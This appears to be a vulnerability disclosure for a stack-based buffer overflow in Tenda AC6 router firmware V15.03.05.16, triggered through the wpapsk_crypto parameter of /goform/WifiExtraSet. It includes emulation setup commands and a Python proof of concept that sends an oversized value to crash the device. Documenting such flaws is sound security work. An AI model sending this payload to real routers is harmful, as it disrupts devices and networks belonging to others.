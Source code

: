 /goform/WifiExtraSet
--------------------

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![](api/attachments/OLpMhoNjD8Vg/image/image.png)

### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

### Vulnerability details

A vulnerability was found in Tenda AC6 V15.03.05.16. The file /goform/WifiExtraSet is affected. Using the wpapsk\_crypto parameter causes a stack-based buffer overflow

![](api/attachments/RDjZlle9Z1rD/image/image.png)

### poc

```text-plain
import requests

url = "http://192.168.142.100/goform/WifiExtraSet"
data = {
    "wifi_chkHz": "1",
    "wl_mode": "wisp",
    "wl_enbale": "1",
    "country_code": "CN",
    "wpsEn": "0",
    "guestEn": "0",
    "iptvEn": "0",
    "wifiTimerEn": "1",
    "smartSaveEn": "1",
    "dmzEn": "1",
    "handset": "0",
    "ssid": "fcniux",
    "wpapsk_key": "11111111",
    "security": "wpapsk",
    "wpapsk_type": "wpa",
    "wpapsk_crypto": b"Raining" * 28, 
    "mac": "undifined"
}

response = requests.post(url, data=data)
print(response.status_code)
print(response.text)
```

![](api/attachments/PeiIIoXkyBHq/image/image.png)
